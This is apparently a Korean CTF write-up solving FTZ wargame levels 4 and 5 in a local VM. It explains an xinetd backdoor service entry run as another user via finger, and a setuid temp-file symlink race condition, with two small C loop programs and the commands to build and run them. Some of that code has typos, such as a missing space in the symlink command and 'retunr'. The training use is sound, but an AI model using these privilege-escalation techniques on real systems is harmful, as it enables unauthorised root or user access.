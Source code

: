 # FTZ level 4 & 5번 문제풀이



7 / 30, 2018 Jinyan 김상민	



FTZ 4번 ~ 5번까지의 문제풀이를 하고자 합니다.

> 환경 : Windows 10
>
> - Red Hat Linux 9.0 (VMware Workstation)
> - putty



#### 1. 4번 문제 풀이

level 4의 힌트를 찾아보았습니다.

<img src=https://user-images.githubusercontent.com/37801676/43368794-c0101bf8-939d-11e8-8692-6400ef538b43.PNG>

/etc/xinetd.d 디텍토리에 백도어를 심어 놓았다고 합니다.

먼저 /etc/ 설정 파일에 xinetd.d 디텍토리가 무슨 정보를 담는지 확인해 보았습니다.

```
xinetd 란 (RedHat Linux7에서 부터 제공)
네트워크에 들어오는 요청을 받고, 적절한 서비스를 실행시켜주는 '슈퍼 데몬'
------------------------------------------------------------------------------------------------
설정 파일(파일.conf)을 제공하는 서비스들의 설정은 etc/xinetd.d 디텍토리에 저장된다.
```

그리고 /etc/xinetd.d 디텍토리에 들어가 파일을 확인 보았습니다. 

<img src=https://user-images.githubusercontent.com/37801676/43368795-c04d7340-939d-11e8-98d3-f5a2cbd6d279.PNG>

backdoor라는 파일이 있었고, 권한은 읽기만 가능했기 때문에 바로 출력해 보았습니다.

<img src=https://user-images.githubusercontent.com/37801676/43368796-c0767024-939d-11e8-9e0c-a1fda229df94.PNG>

```
service finger									서비스 : finger (사용자의 계정정보 확인 명령)
{
    	disable = no							나열된 서비스 값들을 실행 못하도록 지정 : no
    	flags	= REUSE							포트가 사용중의 경우에서도 재이용 가능
    	wait	= no							xinetd가 서비스 요청을 받은 경우, 즉시 또 다른 												  요청을 처리 하지 못하도록 지정 : no
    	user	= level5						어떤 사용자 권한으로 서비스 : level5
    	server	= /home/level4/tmp/backdoor		  해당 서비스 실행할 데몬 프로그램 위치
    	log_on_failuer += USERID				 거부되었을 때 기록될 원격 사용자의 ID
}
```

backdoor 설정을 해석해 보았을때 /home/level4/tmp/backdoor 위치에서 level5권한으로 실행 된다는 것을 확인 할 수 있었습니다. 

그래서 home/level4/tmp 로 넘어가고 파일을 확인해 보았습니다.

<img src=https://user-images.githubusercontent.com/37801676/43368797-c0a09c50-939d-11e8-81be-493caceecb66.PNG>

backdoor란 파일이 존재하지 않았습니다.

그래서 임의로 backdoor란 파일을 소스코드와 컴파일을 이용하여 만들어 주었습니다.

 <img src=https://user-images.githubusercontent.com/37801676/43368798-c0ca71b0-939d-11e8-8b2a-58a63ebff74e.PNG>

<img src=https://user-images.githubusercontent.com/37801676/43368799-c0f3cca4-939d-11e8-86f6-45ddfc809125.PNG>

그런다음 finger 명령어를 사용하여 서비스를 실행해보았습니다.

```
$ finger @localhost
```

<img src=https://user-images.githubusercontent.com/37801676/43369147-c142e43c-93a3-11e8-86b5-567d19cecacc.PNG>

이렇게 계정 정보를 확인할 수 있었습니다.



#### 2. 5번 문제풀이

level5의 힌트를 확인해 보았습니다.

<img src=https://user-images.githubusercontent.com/37801676/43370444-fa9eaac0-93b9-11e8-929a-2b2374a1edcc.PNG>

level5의 실행 파일을 보면 setuid가 걸려있는 것으로 볼 수 있습니다.

<img src=https://user-images.githubusercontent.com/37801676/43370462-0a675c2c-93ba-11e8-8c59-970988592d68.PNG>

/usr/bin/level5를 실행을 시키면 /tmp 디텍토리에 임시파일이 생긴다. 라는 것을 볼 수 있는데, 먼저 level5를 실행해봅시다.

<img src=https://user-images.githubusercontent.com/37801676/43370464-16d7de00-93ba-11e8-8d7f-d3dcf75dc07a.PNG>

/tmp 디텍토리에 임시파일을 확인해 봅시다.

임시파일을 없는 것으로 보면, 실행 하면 생겼다가 종료할때 삭제되는 것을 짐작 할 수 있었습니다.



먼저 앞에 확인했던 setuid와 tmp 임시파일을 들으면 " **레이스 컨디션** " 을 사용 할 수 있다고 생각 하시면 됩니다. 

```
레이스 컨디션이란?
"공유 자원에 대해 여러개의 프로세스가 동시에 접근하기 위해 경쟁하는 상태"
즉 프로세스들이 경쟁하는 것을 이용하여 관리자 권한을 얻는 공격 기법
--------------------------------------------------------------------------
기본 개념
레이스 컨디션 공격의 대상은 소유자가 상위권한이고, setuid가 설정된 임시 파일을 생성 하는 프로그램
#정상
프로그램이 실행되면 setuid로 인해 프로세스 권한이 상승 되고 임시 파일의 존재 여부를 확인한다. 만약 임시파일이 있다면 삭제하고 재생성해 프로그램이 동작하고 임시파일은 삭제된다.
#해커의 관점
해커는 재생성된 임시파일을 삭제하고 임시 파일의 이름으로 심볼릭 링크를 생성한다. 그 후, 프로그램이 동작하고 임시 파일은 삭제된다.
```

순서도

1 - 프로그램 실행

2 - 생성할 임시파일과 같은 이름의 파일이 있는지 없는지 검사

3 - 같은 이름의 파일이 있으면 삭제하고, 없다면 계속

4 - 임시파일을 생성



미리 심볼릭 링크를 만들어 놓으면 삭제가 되기 때문에 3번과 4번의 사이를 노려줍니다.

하지만 3번과 4번 사이에 심볼릭 링크를 생성하는 것은 어렵기 때문에 반복 작업을 해줍니다. (프로그램을 이용)

그래서 그 반복할 프로그램을 만들어줍니다.

```
#level5를 반복실행 하도록 하는 프로그램(Sleepy)

#include<stdio.h>
int main()
{
 int i;
 for(i=0; i<=1000; i++)    
 {
  system("/usr/bin/level5");
 }
 retunr 0;
}
```

```
  심볼릭 링크 생성을 반복하는 프로그램(Sleepy2)
#include<stdio.h>
int main()
{
 int i;
 for(i=0; i<=1000; i++)    
 {
  system("ln -s /tmp/Sleepy3/tmp/level5.tmp");
 }
}
```

```
cd /tmp
cat >> Sleepy3 : 씌여줄 파일을 만들어줍니다.

이후 소스파일 컴파일

gcc -o Sleepy Sleepy.c
gcc -o Sleepy2 Sleepy2.c

컴파일 이후 실행

./Sleepy &   : &를 붙이면 다음 명령 실행 가능
./Sleepy2

그 이후 cat ./Sleepy3 에 기록되있는 것을 확인 할 수 있습니다. 
```






